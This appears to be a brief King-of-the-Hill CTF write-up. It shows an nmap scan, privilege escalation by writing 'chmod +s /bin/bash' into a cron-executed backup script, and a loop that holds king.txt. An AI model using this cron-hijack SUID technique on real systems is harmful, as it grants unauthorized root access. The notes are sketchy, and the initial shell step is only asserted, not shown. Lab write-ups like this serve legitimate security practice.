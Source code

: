 KOTH
Scan:
```terminal
└─# nmap -sV -Pn -p- --min-rate 5000 $ip
port 22
port 80
```
haven't see other port, i will try rustscan

got a shell on 8002
now root
PrivEsc
Got a crontab
```terminal
serv3@web-serv:/home/serv3/backups$ echo '#!/bin/bash
> chmod +s /bin/bash' > backup.sh
serv3@web-serv:/home/serv3/backups$ cat backup.sh 
#!/bin/bash
chmod +s /bin/bash

```
Now i just wait some minutes
flag on index.php
Become King
```
bash-4.4# cat king.txt 
bloman
bash-4.4# while True; do echo "bloman" > king.txt; done
bash: True: command not found
bash-4.4# while true; do echo "bloman" > king.txt; done
```
/var/lib for 3rd writeup